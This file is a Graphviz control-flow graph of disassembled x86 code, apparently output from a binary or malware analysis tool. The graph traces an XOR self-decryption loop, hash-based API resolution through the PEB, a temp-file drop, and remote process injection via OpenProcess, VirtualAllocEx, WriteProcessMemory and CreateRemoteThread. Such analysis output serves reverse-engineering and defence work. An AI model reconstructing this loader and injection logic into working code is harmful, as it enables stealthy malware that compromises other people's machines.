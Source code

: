 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x03708b54movl_0x3701001UINT32_esi[label="start\nmovl $0x3701001<UINT32>, %esi",fillcolor="orange",color="lightgrey"];
a0x03708b59movzbl__1esi__edx[label="0x03708b59\nmovzbl -1(%esi), %edx"];
a0x03708b5dmovl_0x107b30UINT32_ecx[label="0x03708b5d\nmovl $0x107b30<UINT32>, %ecx"];
a0x03708b62pushl_0x370100eUINT32[label="0x03708b62\npushl $0x370100e<UINT32>"];
a0x03708b67xorb_dl_esi_[label="0x03708b67\nxorb %dl, (%esi)"];
a0x03708b69xorl_eax_eax[label="0x03708b69\nxorl %eax, %eax"];
a0x03708b6blodsb_ds_esi__al[label="0x03708b6b\nlodsb %ds:(%esi), %al"];
a0x03708b6cleal_0x67896afedxeax__edx[label="0x03708b6c\nleal 0x67896af(%edx,%eax), %edx"];
a0x03708b73decl_ecx[label="0x03708b73\ndecl %ecx"];
a0x03708b74subl_0x6789678UINT32_edx[label="0x03708b74\nsubl $0x6789678<UINT32>, %edx"];
a0x03708b7acmpl_0x100000UINT32_ecx[label="0x03708b7a\ncmpl $0x100000<UINT32>, %ecx"];
a0x03708b80jg_0x03708b67[label="0x03708b80\njg 0x03708b67"];
a0x03708b82ret[label="0x03708b82\nret"];
a0x0370100ecall_0x0370109e[label="0x0370100e\ncall 0x0370109e"];
a0x0370109epopl_eax[label="0x0370109e\npopl %eax"];
a0x0370109fcall_0x03708a73[label="0x0370109f\ncall 0x03708a73"];
a0x03708a73pusha_[label="0x03708a73\npusha "];
a0x03708a74pushl_eax[label="0x03708a74\npushl %eax"];
a0x03708a75call_0x03708b35[label="0x03708a75\ncall 0x03708b35"];
a0x03708b35movl_fs_0x30_eax[label="0x03708b35\nmovl %fs:0x30, %eax"];
a0x03708b3btestl_eax_eax[label="0x03708b3b\ntestl %eax, %eax"];
a0x03708b3djs_0x03708b4a[label="0x03708b3d\njs 0x03708b4a"];
a0x03708b3fmovl_0xceax__eax[label="0x03708b3f\nmovl 0xc(%eax), %eax"];
a0x03708b42movl_0x1ceax__esi[label="0x03708b42\nmovl 0x1c(%eax), %esi"];
a0x03708b45lodsl_ds_esi__eax[label="0x03708b45\nlodsl %ds:(%esi), %eax"];
a0x03708b46movl_0x8eax__ebx[label="0x03708b46\nmovl 0x8(%eax), %ebx"];
a0x03708b49ret[label="0x03708b49\nret"];
a0x03708a7apushl_ebx[label="0x03708a7a\npushl %ebx"];
a0x03708a7bpushl_0xec0e4e8eUINT32[label="0x03708a7b\npushl $0xec0e4e8e<UINT32>"];
a0x03708a80call_0x03708ad5[label="0x03708a80\ncall 0x03708ad5"];
a0x03708ad5pusha_[label="0x03708ad5\npusha "];
a0x03708ad6movl_0x28esp__ebp[label="0x03708ad6\nmovl 0x28(%esp), %ebp"];
a0x03708adamovl_0x3cebp__eax[label="0x03708ada\nmovl 0x3c(%ebp), %eax"];
a0x03708addmovl_0x78ebpeax__edx[label="0x03708add\nmovl 0x78(%ebp,%eax), %edx"];
a0x03708ae1addl_ebp_edx[label="0x03708ae1\naddl %ebp, %edx"];
a0x03708ae3movl_0x18edx__ecx[label="0x03708ae3\nmovl 0x18(%edx), %ecx"];
a0x03708ae6movl_0x20edx__ebx[label="0x03708ae6\nmovl 0x20(%edx), %ebx"];
a0x03708ae9addl_ebp_ebx[label="0x03708ae9\naddl %ebp, %ebx"];
a0x03708aebjecxz_0x03708b22[label="0x03708aeb\njecxz 0x03708b22"];
a0x03708aeddecl_ecx[label="0x03708aed\ndecl %ecx"];
a0x03708aeemovl_ebxecx4__esi[label="0x03708aee\nmovl (%ebx,%ecx,4), %esi"];
a0x03708af1addl_ebp_esi[label="0x03708af1\naddl %ebp, %esi"];
a0x03708af3xorl_edi_edi[label="0x03708af3\nxorl %edi, %edi"];
a0x03708af5cld_[label="0x03708af5\ncld "];
a0x03708af6xorl_eax_eax[label="0x03708af6\nxorl %eax, %eax"];
a0x03708af8lodsb_ds_esi__al[label="0x03708af8\nlodsb %ds:(%esi), %al"];
a0x03708af9cmpb_ah_al[label="0x03708af9\ncmpb %ah, %al"];
a0x03708afbje_0x03708b04[label="0x03708afb\nje 0x03708b04"];
a0x03708afdrorl_0xdUINT8_edi[label="0x03708afd\nrorl $0xd<UINT8>, %edi"];
a0x03708b00addl_eax_edi[label="0x03708b00\naddl %eax, %edi"];
a0x03708b02jmp_0x03708af6[label="0x03708b02\njmp 0x03708af6"];
a0x03708b04cmpl_0x24esp__edi[label="0x03708b04\ncmpl 0x24(%esp), %edi"];
a0x03708b08jne_0x03708aeb[label="0x03708b08\njne 0x03708aeb"];
a0x03708b0amovl_0x24edx__ebx[label="0x03708b0a\nmovl 0x24(%edx), %ebx"];
a0x03708b0daddl_ebp_ebx[label="0x03708b0d\naddl %ebp, %ebx"];
a0x03708b0fmovzwl_ebxecx2__ecx[label="0x03708b0f\nmovzwl (%ebx,%ecx,2), %ecx"];
a0x03708b13movl_0x1cedx__ebx[label="0x03708b13\nmovl 0x1c(%edx), %ebx"];
a0x03708b16addl_ebp_ebx[label="0x03708b16\naddl %ebp, %ebx"];
a0x03708b18movl_ebxecx4__eax[label="0x03708b18\nmovl (%ebx,%ecx,4), %eax"];
a0x03708b1baddl_ebp_eax[label="0x03708b1b\naddl %ebp, %eax"];
a0x03708b1djmp_0x03708b24[label="0x03708b1d\njmp 0x03708b24"];
a0x03708b24movl_eax_0x1cesp_[label="0x03708b24\nmovl %eax, 0x1c(%esp)"];
a0x03708b28popa_[label="0x03708b28\npopa "];
a0x03708b29ret_0x8UINT16[label="0x03708b29\nret $0x8<UINT16>"];
a0x03708a85movl_eax_esi[label="0x03708a85\nmovl %eax, %esi"];
a0x03708a87popl_edi[label="0x03708a87\npopl %edi"];
a0x03708a88pushl_edi[label="0x03708a88\npushl %edi"];
a0x03708a89call_esi[label="0x03708a89\ncall %esi"];
LoadLibraryA_kernel32_dll[label="LoadLibraryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708a8bmovl_eax_ebx[label="0x03708a8b\nmovl %eax, %ebx"];
a0x03708a8dxorl_eax_eax[label="0x03708a8d\nxorl %eax, %eax"];
a0x03708a8fmovb_0xffffffffUINT8_cl[label="0x03708a8f\nmovb $0xffffffff<UINT8>, %cl"];
a0x03708a91repnz_scasb_es_edi__al[label="0x03708a91\nrepnz scasb %es:(%edi), %al"];
a0x03708a93movl_edi__eax[label="0x03708a93\nmovl (%edi), %eax"];
a0x03708a95testl_eax_eax[label="0x03708a95\ntestl %eax, %eax"];
a0x03708a97je_0x03708aa3[label="0x03708a97\nje 0x03708aa3"];
a0x03708a99pushl_ebx[label="0x03708a99\npushl %ebx"];
a0x03708a9apushl_eax[label="0x03708a9a\npushl %eax"];
a0x03708a9bcall_0x03708ad5[label="0x03708a9b\ncall 0x03708ad5"];
a0x03708aa0stosl_eax_es_edi_[label="0x03708aa0\nstosl %eax, %es:(%edi)"];
a0x03708aa1jmp_0x03708a93[label="0x03708aa1\njmp 0x03708a93"];
a0x03708aa3stosl_eax_es_edi_[label="0x03708aa3\nstosl %eax, %es:(%edi)"];
a0x03708aa4cmpb_0x0UINT8_edi_[label="0x03708aa4\ncmpb $0x0<UINT8>, (%edi)"];
a0x03708aa7jne_0x03708a88[label="0x03708aa7\njne 0x03708a88"];
a0x03708aa9popa_[label="0x03708aa9\npopa "];
a0x03708aaaret[label="0x03708aaa\nret"];
a0x037010a4movl_0x3701090UINT32_edi[label="0x037010a4\nmovl $0x3701090<UINT32>, %edi"];
a0x037010a9movl_0xdUINT32_ecx[label="0x037010a9\nmovl $0xd<UINT32>, %ecx"];
a0x037010aexorb_cl_ediecx_[label="0x037010ae\nxorb %cl, (%edi,%ecx)"];
a0x037010b1loop_0x037010ae[label="0x037010b1\nloop 0x037010ae"];
a0x037010b3xorl_0x6f9e8d7cUINT32_0x0370108c[label="0x037010b3\nxorl $0x6f9e8d7c<UINT32>, 0x0370108c"];
a0x037010bdxorl_0x4f1e7d9cUINT32_0x03701088[label="0x037010bd\nxorl $0x4f1e7d9c<UINT32>, 0x03701088"];
a0x037010c7call_0x03701064[label="0x037010c7\ncall 0x03701064"];
GetCommandLineA_kernel32_dll[label="GetCommandLineA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037010cdmovl_eax_esi[label="0x037010cd\nmovl %eax, %esi"];
a0x037010cfmovl_0x371919fUINT32_edi[label="0x037010cf\nmovl $0x371919f<UINT32>, %edi"];
a0x037010d4lodsb_ds_esi__al[label="0x037010d4\nlodsb %ds:(%esi), %al"];
a0x037010d5stosb_al_es_edi_[label="0x037010d5\nstosb %al, %es:(%edi)"];
a0x037010d6testb_al_al[label="0x037010d6\ntestb %al, %al"];
a0x037010d8jne_0x037010d4[label="0x037010d8\njne 0x037010d4"];
a0x037010damovl_0x3718b83UINT32_edi[label="0x037010da\nmovl $0x3718b83<UINT32>, %edi"];
a0x037010dfpushl_edi[label="0x037010df\npushl %edi"];
a0x037010e0pushl_0x80UINT32[label="0x037010e0\npushl $0x80<UINT32>"];
a0x037010e5call_0x03701058[label="0x037010e5\ncall 0x03701058"];
GetTempPathA_kernel32_dll[label="GetTempPathA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037010ebpushl_edi[label="0x037010eb\npushl %edi"];
a0x037010ecpushl_0x0UINT32[label="0x037010ec\npushl $0x0<UINT32>"];
a0x037010f1pushl_0x3701088UINT32[label="0x037010f1\npushl $0x3701088<UINT32>"];
a0x037010f6pushl_edi[label="0x037010f6\npushl %edi"];
a0x037010f7call_0x03701060[label="0x037010f7\ncall 0x03701060"];
GetTempFileNameA_kernel32_dll[label="GetTempFileNameA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037010fdpushl_0x1001UINT32[label="0x037010fd\npushl $0x1001<UINT32>"];
a0x03701102movb_0xffffff87UINT8_0x03718d9f[label="0x03701102\nmovb $0xffffff87<UINT8>, 0x03718d9f"];
a0x03701109pushl_0x3718d9fUINT32[label="0x03701109\npushl $0x3718d9f<UINT32>"];
a0x0370110epushl_edi[label="0x0370110e\npushl %edi"];
a0x0370110fcall_0x03701020[label="0x0370110f\ncall 0x03701020"];
OpenFile_kernel32_dll[label="OpenFile@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03701115movl_eax_esi[label="0x03701115\nmovl %eax, %esi"];
a0x03701117pushl_0x7863UINT32[label="0x03701117\npushl $0x7863<UINT32>"];
a0x0370111ccall_0x03708984[label="0x0370111c\ncall 0x03708984"];
a0x03708984pushl_esi[label="0x03708984\npushl %esi"];
a0x03708985call_0x03701024[label="0x03708985\ncall 0x03701024"];
a_hwrite_kernel32_dll[label="_hwrite@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0370898bpushl_esi[label="0x0370898b\npushl %esi"];
a0x0370898ccall_0x03701028[label="0x0370898c\ncall 0x03701028"];
a_lclose_kernel32_dll[label="_lclose@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708992pushl_0x0UINT32[label="0x03708992\npushl $0x0<UINT32>"];
a0x03708997call_0x03701050[label="0x03708997\ncall 0x03701050"];
GetModuleHandleA_kernel32_dll[label="GetModuleHandleA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x0370899dmovl_eax_0x03718d8f[label="0x0370899d\nmovl %eax, 0x03718d8f"];
a0x037089a2movl_eax_edi[label="0x037089a2\nmovl %eax, %edi"];
a0x037089a4addl_0x3cedi__edi[label="0x037089a4\naddl 0x3c(%edi), %edi"];
a0x037089a7movl_0x50edi__eax[label="0x037089a7\nmovl 0x50(%edi), %eax"];
a0x037089aamovl_eax_0x03718d87[label="0x037089aa\nmovl %eax, 0x03718d87"];
a0x037089afpushl_0x0UINT32[label="0x037089af\npushl $0x0<UINT32>"];
a0x037089b4pushl_0x3701090UINT32[label="0x037089b4\npushl $0x3701090<UINT32>"];
a0x037089b9call_0x03701077[label="0x037089b9\ncall 0x03701077"];
FindWindowA_user32_dll[label="FindWindowA@user32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037089bftestl_eax_eax[label="0x037089bf\ntestl %eax, %eax"];
a0x037089c1jne_0x037089d0[label="0x037089c1\njne 0x037089d0"];
a0x037089d0pushl_0x3718d8bUINT32[label="0x037089d0\npushl $0x3718d8b<UINT32>"];
a0x037089d5pushl_eax[label="0x037089d5\npushl %eax"];
a0x037089d6call_0x0370107b[label="0x037089d6\ncall 0x0370107b"];
GetWindowThreadProcessId_user32_dll[label="GetWindowThreadProcessId@user32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037089dcpushl_0x03718d8b[label="0x037089dc\npushl 0x03718d8b"];
a0x037089e2pushl_0x0UINT32[label="0x037089e2\npushl $0x0<UINT32>"];
a0x037089e7pushl_0x1f0fffUINT32[label="0x037089e7\npushl $0x1f0fff<UINT32>"];
a0x037089eccall_0x03701054[label="0x037089ec\ncall 0x03701054"];
OpenProcess_kernel32_dll[label="OpenProcess@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x037089f2movl_eax_0x03718d97[label="0x037089f2\nmovl %eax, 0x03718d97"];
a0x037089f7pushl_0x40UINT32[label="0x037089f7\npushl $0x40<UINT32>"];
a0x037089fcpushl_0x3000UINT32[label="0x037089fc\npushl $0x3000<UINT32>"];
a0x03708a01pushl_0x03718d87[label="0x03708a01\npushl 0x03718d87"];
a0x03708a07pushl_0x03718d8f[label="0x03708a07\npushl 0x03718d8f"];
a0x03708a0dpushl_0x03718d97[label="0x03708a0d\npushl 0x03718d97"];
a0x03708a13call_0x0370105c[label="0x03708a13\ncall 0x0370105c"];
VirtualAllocEx_kernel32_dll[label="VirtualAllocEx@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708a19movl_eax_0x03718d93[label="0x03708a19\nmovl %eax, 0x03718d93"];
a0x03708a1epushl_0x3718d9fUINT32[label="0x03708a1e\npushl $0x3718d9f<UINT32>"];
a0x03708a23pushl_0x03718d87[label="0x03708a23\npushl 0x03718d87"];
a0x03708a29pushl_0x03718d8f[label="0x03708a29\npushl 0x03718d8f"];
a0x03708a2fpushl_0x03718d93[label="0x03708a2f\npushl 0x03718d93"];
a0x03708a35pushl_0x03718d97[label="0x03708a35\npushl 0x03718d97"];
a0x03708a3bcall_0x0370103c[label="0x03708a3b\ncall 0x0370103c"];
WriteProcessMemory_kernel32_dll[label="WriteProcessMemory@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708a41pushl_0x3718d9fUINT32[label="0x03708a41\npushl $0x3718d9f<UINT32>"];
a0x03708a46pushl_0x0UINT32[label="0x03708a46\npushl $0x0<UINT32>"];
a0x03708a4bpushl_0x03718d8f[label="0x03708a4b\npushl 0x03718d8f"];
a0x03708a51leal_0x03708aab_eax[label="0x03708a51\nleal 0x03708aab, %eax"];
a0x03708a57pushl_eax[label="0x03708a57\npushl %eax"];
a0x03708a58pushl_0x0UINT32[label="0x03708a58\npushl $0x0<UINT32>"];
a0x03708a5dpushl_0x0UINT32[label="0x03708a5d\npushl $0x0<UINT32>"];
a0x03708a62pushl_0x03718d97[label="0x03708a62\npushl 0x03718d97"];
a0x03708a68call_0x03701040[label="0x03708a68\ncall 0x03701040"];
CreateRemoteThread_kernel32_dll[label="CreateRemoteThread@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708a6etestl_eax_eax[label="0x03708a6e\ntestl %eax, %eax"];
a0x03708a70je_0x03708aab[label="0x03708a70\nje 0x03708aab"];
a0x03708aabpushl_0x3718b83UINT32[label="0x03708aab\npushl $0x3718b83<UINT32>"];
a0x03708ab0call_0x03701034[label="0x03708ab0\ncall 0x03701034"];
a0x03708ab6pushl_0x370108cUINT32[label="0x03708ab6\npushl $0x370108c<UINT32>"];
a0x03708abbpushl_eax[label="0x03708abb\npushl %eax"];
a0x03708abccall_0x03701038[label="0x03708abc\ncall 0x03701038"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x03708ac2pushl_0x371919fUINT32[label="0x03708ac2\npushl $0x371919f<UINT32>"];
a0x03708ac7call_eax[label="0x03708ac7\ncall %eax"];
a0x88880000addb_al_eax_[label="0x88880000\naddb %al, (%eax)"];
a0x88880002addb_al_eax_[label="0x88880002\naddb %al, (%eax)"];
a0x88880004addb_al_eax_[label="0x88880004\naddb %al, (%eax)"];
a0x88880006addb_al_eax_[label="0x88880006\naddb %al, (%eax)"];
a0x88880008addb_al_eax_[label="0x88880008\naddb %al, (%eax)"];
a0x8888000aaddb_al_eax_[label="0x8888000a\naddb %al, (%eax)"];
a0x8888000caddb_al_eax_[label="0x8888000c\naddb %al, (%eax)"];
a0x8888000eaddb_al_eax_[label="0x8888000e\naddb %al, (%eax)"];
a0x88880010addb_al_eax_[label="0x88880010\naddb %al, (%eax)"];
a0x88880012addb_al_eax_[label="0x88880012\naddb %al, (%eax)"];
a0x88880014addb_al_eax_[label="0x88880014\naddb %al, (%eax)"];
a0x88880016addb_al_eax_[label="0x88880016\naddb %al, (%eax)"];
a0x88880018addb_al_eax_[label="0x88880018\naddb %al, (%eax)"];
a0x8888001aaddb_al_eax_[label="0x8888001a\naddb %al, (%eax)"];
a0x8888001caddb_al_eax_[label="0x8888001c\naddb %al, (%eax)"];
a0x8888001eaddb_al_eax_[label="0x8888001e\naddb %al, (%eax)"];
a0x88880020addb_al_eax_[label="0x88880020\naddb %al, (%eax)"];
a0x88880022addb_al_eax_[label="0x88880022\naddb %al, (%eax)"];
a0x88880024addb_al_eax_[label="0x88880024\naddb %al, (%eax)"];
a0x88880026addb_al_eax_[label="0x88880026\naddb %al, (%eax)"];
a0x88880028addb_al_eax_[label="0x88880028\naddb %al, (%eax)"];
a0x8888002aaddb_al_eax_[label="0x8888002a\naddb %al, (%eax)"];
a0x8888002caddb_al_eax_[label="0x8888002c\naddb %al, (%eax)"];
a0x8888002eaddb_al_eax_[label="0x8888002e\naddb %al, (%eax)"];
a0x88880030addb_al_eax_[label="0x88880030\naddb %al, (%eax)"];
a0x88880032addb_al_eax_[label="0x88880032\naddb %al, (%eax)"];
a0x88880034addb_al_eax_[label="0x88880034\naddb %al, (%eax)"];
a0x88880036addb_al_eax_[label="0x88880036\naddb %al, (%eax)"];
a0x88880038addb_al_eax_[label="0x88880038\naddb %al, (%eax)"];
a0x8888003aaddb_al_eax_[label="0x8888003a\naddb %al, (%eax)"];
a0x8888003caddb_al_eax_[label="0x8888003c\naddb %al, (%eax)"];
a0x8888003eaddb_al_eax_[label="0x8888003e\naddb %al, (%eax)"];
a0x88880040addb_al_eax_[label="0x88880040\naddb %al, (%eax)"];
a0x88880042addb_al_eax_[label="0x88880042\naddb %al, (%eax)"];
a0x88880044addb_al_eax_[label="0x88880044\naddb %al, (%eax)"];
a0x88880046addb_al_eax_[label="0x88880046\naddb %al, (%eax)"];
a0x88880048addb_al_eax_[label="0x88880048\naddb %al, (%eax)"];
a0x8888004aaddb_al_eax_[label="0x8888004a\naddb %al, (%eax)"];
a0x8888004caddb_al_eax_[label="0x8888004c\naddb %al, (%eax)"];
a0x8888004eaddb_al_eax_[label="0x8888004e\naddb %al, (%eax)"];
a0x88880050addb_al_eax_[label="0x88880050\naddb %al, (%eax)"];
a0x88880052addb_al_eax_[label="0x88880052\naddb %al, (%eax)"];
a0x88880054addb_al_eax_[label="0x88880054\naddb %al, (%eax)"];
a0x88880056addb_al_eax_[label="0x88880056\naddb %al, (%eax)"];
a0x88880058addb_al_eax_[label="0x88880058\naddb %al, (%eax)"];
a0x8888005aaddb_al_eax_[label="0x8888005a\naddb %al, (%eax)"];
a0x8888005caddb_al_eax_[label="0x8888005c\naddb %al, (%eax)"];
a0x8888005eaddb_al_eax_[label="0x8888005e\naddb %al, (%eax)"];
a0x88880060addb_al_eax_[label="0x88880060\naddb %al, (%eax)"];
a0x88880062addb_al_eax_[label="0x88880062\naddb %al, (%eax)"];
a0x88880064addb_al_eax_[label="0x88880064\naddb %al, (%eax)"];
a0x88880066addb_al_eax_[label="0x88880066\naddb %al, (%eax)"];
a0x03708b54movl_0x3701001UINT32_esi -> a0x03708b59movzbl__1esi__edx [color="#000000"];
a0x03708b59movzbl__1esi__edx -> a0x03708b5dmovl_0x107b30UINT32_ecx [color="#000000"];
a0x03708b5dmovl_0x107b30UINT32_ecx -> a0x03708b62pushl_0x370100eUINT32 [color="#000000"];
a0x03708b62pushl_0x370100eUINT32 -> a0x03708b67xorb_dl_esi_ [color="#000000"];
a0x03708b67xorb_dl_esi_ -> a0x03708b69xorl_eax_eax [color="#000000"];
a0x03708b69xorl_eax_eax -> a0x03708b6blodsb_ds_esi__al [color="#000000"];
a0x03708b6blodsb_ds_esi__al -> a0x03708b6cleal_0x67896afedxeax__edx [color="#000000"];
a0x03708b6cleal_0x67896afedxeax__edx -> a0x03708b73decl_ecx [color="#000000"];
a0x03708b73decl_ecx -> a0x03708b74subl_0x6789678UINT32_edx [color="#000000"];
a0x03708b74subl_0x6789678UINT32_edx -> a0x03708b7acmpl_0x100000UINT32_ecx [color="#000000"];
a0x03708b7acmpl_0x100000UINT32_ecx -> a0x03708b80jg_0x03708b67 [color="#000000"];
a0x03708b80jg_0x03708b67 -> a0x03708b67xorb_dl_esi_ [color="#000000",label="T"];
a0x03708b80jg_0x03708b67 -> a0x03708b82ret [color="#000000",label="F"];
a0x03708b82ret -> a0x0370100ecall_0x0370109e [color="#000000"];
a0x0370100ecall_0x0370109e -> a0x0370109epopl_eax [color="#000000"];
a0x0370109epopl_eax -> a0x0370109fcall_0x03708a73 [color="#000000"];
a0x0370109fcall_0x03708a73 -> a0x03708a73pusha_ [color="#000000"];
a0x03708a73pusha_ -> a0x03708a74pushl_eax [color="#000000"];
a0x03708a74pushl_eax -> a0x03708a75call_0x03708b35 [color="#000000"];
a0x03708a75call_0x03708b35 -> a0x03708b35movl_fs_0x30_eax [color="#000000"];
a0x03708b35movl_fs_0x30_eax -> a0x03708b3btestl_eax_eax [color="#000000"];
a0x03708b3btestl_eax_eax -> a0x03708b3djs_0x03708b4a [color="#000000"];
a0x03708b3djs_0x03708b4a -> a0x03708b3fmovl_0xceax__eax [color="#000000",label="F"];
a0x03708b3fmovl_0xceax__eax -> a0x03708b42movl_0x1ceax__esi [color="#000000"];
a0x03708b42movl_0x1ceax__esi -> a0x03708b45lodsl_ds_esi__eax [color="#000000"];
a0x03708b45lodsl_ds_esi__eax -> a0x03708b46movl_0x8eax__ebx [color="#000000"];
a0x03708b46movl_0x8eax__ebx -> a0x03708b49ret [color="#000000"];
a0x03708b49ret -> a0x03708a7apushl_ebx [color="#000000"];
a0x03708a7apushl_ebx -> a0x03708a7bpushl_0xec0e4e8eUINT32 [color="#000000"];
a0x03708a7bpushl_0xec0e4e8eUINT32 -> a0x03708a80call_0x03708ad5 [color="#000000"];
a0x03708a80call_0x03708ad5 -> a0x03708ad5pusha_ [color="#000000"];
a0x03708ad5pusha_ -> a0x03708ad6movl_0x28esp__ebp [color="#000000"];
a0x03708ad6movl_0x28esp__ebp -> a0x03708adamovl_0x3cebp__eax [color="#000000"];
a0x03708adamovl_0x3cebp__eax -> a0x03708addmovl_0x78ebpeax__edx [color="#000000"];
a0x03708addmovl_0x78ebpeax__edx -> a0x03708ae1addl_ebp_edx [color="#000000"];
a0x03708ae1addl_ebp_edx -> a0x03708ae3movl_0x18edx__ecx [color="#000000"];
a0x03708ae3movl_0x18edx__ecx -> a0x03708ae6movl_0x20edx__ebx [color="#000000"];
a0x03708ae6movl_0x20edx__ebx -> a0x03708ae9addl_ebp_ebx [color="#000000"];
a0x03708ae9addl_ebp_ebx -> a0x03708aebjecxz_0x03708b22 [color="#000000"];
a0x03708aebjecxz_0x03708b22 -> a0x03708aeddecl_ecx [color="#000000",label="F"];
a0x03708aeddecl_ecx -> a0x03708aeemovl_ebxecx4__esi [color="#000000"];
a0x03708aeemovl_ebxecx4__esi -> a0x03708af1addl_ebp_esi [color="#000000"];
a0x03708af1addl_ebp_esi -> a0x03708af3xorl_edi_edi [color="#000000"];
a0x03708af3xorl_edi_edi -> a0x03708af5cld_ [color="#000000"];
a0x03708af5cld_ -> a0x03708af6xorl_eax_eax [color="#000000"];
a0x03708af6xorl_eax_eax -> a0x03708af8lodsb_ds_esi__al [color="#000000"];
a0x03708af8lodsb_ds_esi__al -> a0x03708af9cmpb_ah_al [color="#000000"];
a0x03708af9cmpb_ah_al -> a0x03708afbje_0x03708b04 [color="#000000"];
a0x03708afbje_0x03708b04 -> a0x03708afdrorl_0xdUINT8_edi [color="#000000",label="F"];
a0x03708afdrorl_0xdUINT8_edi -> a0x03708b00addl_eax_edi [color="#000000"];
a0x03708b00addl_eax_edi -> a0x03708b02jmp_0x03708af6 [color="#000000"];
a0x03708b02jmp_0x03708af6 -> a0x03708af6xorl_eax_eax [color="#000000"];
a0x03708afbje_0x03708b04 -> a0x03708b04cmpl_0x24esp__edi [color="#000000",label="T"];
a0x03708b04cmpl_0x24esp__edi -> a0x03708b08jne_0x03708aeb [color="#000000"];
a0x03708b08jne_0x03708aeb -> a0x03708aebjecxz_0x03708b22 [color="#000000",label="T"];
a0x03708b08jne_0x03708aeb -> a0x03708b0amovl_0x24edx__ebx [color="#000000",label="F"];
a0x03708b0amovl_0x24edx__ebx -> a0x03708b0daddl_ebp_ebx [color="#000000"];
a0x03708b0daddl_ebp_ebx -> a0x03708b0fmovzwl_ebxecx2__ecx [color="#000000"];
a0x03708b0fmovzwl_ebxecx2__ecx -> a0x03708b13movl_0x1cedx__ebx [color="#000000"];
a0x03708b13movl_0x1cedx__ebx -> a0x03708b16addl_ebp_ebx [color="#000000"];
a0x03708b16addl_ebp_ebx -> a0x03708b18movl_ebxecx4__eax [color="#000000"];
a0x03708b18movl_ebxecx4__eax -> a0x03708b1baddl_ebp_eax [color="#000000"];
a0x03708b1baddl_ebp_eax -> a0x03708b1djmp_0x03708b24 [color="#000000"];
a0x03708b1djmp_0x03708b24 -> a0x03708b24movl_eax_0x1cesp_ [color="#000000"];
a0x03708b24movl_eax_0x1cesp_ -> a0x03708b28popa_ [color="#000000"];
a0x03708b28popa_ -> a0x03708b29ret_0x8UINT16 [color="#000000"];
a0x03708b29ret_0x8UINT16 -> a0x03708a85movl_eax_esi [color="#000000"];
a0x03708a85movl_eax_esi -> a0x03708a87popl_edi [color="#000000"];
a0x03708a87popl_edi -> a0x03708a88pushl_edi [color="#000000"];
a0x03708a88pushl_edi -> a0x03708a89call_esi [color="#000000"];
a0x03708a89call_esi -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x03708a8bmovl_eax_ebx [color="#000000"];
a0x03708a8bmovl_eax_ebx -> a0x03708a8dxorl_eax_eax [color="#000000"];
a0x03708a8dxorl_eax_eax -> a0x03708a8fmovb_0xffffffffUINT8_cl [color="#000000"];
a0x03708a8fmovb_0xffffffffUINT8_cl -> a0x03708a91repnz_scasb_es_edi__al [color="#000000"];
a0x03708a91repnz_scasb_es_edi__al -> a0x03708a93movl_edi__eax [color="#000000"];
a0x03708a93movl_edi__eax -> a0x03708a95testl_eax_eax [color="#000000"];
a0x03708a95testl_eax_eax -> a0x03708a97je_0x03708aa3 [color="#000000"];
a0x03708a97je_0x03708aa3 -> a0x03708a99pushl_ebx [color="#000000",label="F"];
a0x03708a99pushl_ebx -> a0x03708a9apushl_eax [color="#000000"];
a0x03708a9apushl_eax -> a0x03708a9bcall_0x03708ad5 [color="#000000"];
a0x03708a9bcall_0x03708ad5 -> a0x03708ad5pusha_ [color="#000000"];
a0x03708b29ret_0x8UINT16 -> a0x03708aa0stosl_eax_es_edi_ [color="#000000"];
a0x03708aa0stosl_eax_es_edi_ -> a0x03708aa1jmp_0x03708a93 [color="#000000"];
a0x03708aa1jmp_0x03708a93 -> a0x03708a93movl_edi__eax [color="#000000"];
a0x03708a97je_0x03708aa3 -> a0x03708aa3stosl_eax_es_edi_ [color="#000000",label="T"];
a0x03708aa3stosl_eax_es_edi_ -> a0x03708aa4cmpb_0x0UINT8_edi_ [color="#000000"];
a0x03708aa4cmpb_0x0UINT8_edi_ -> a0x03708aa7jne_0x03708a88 [color="#000000"];
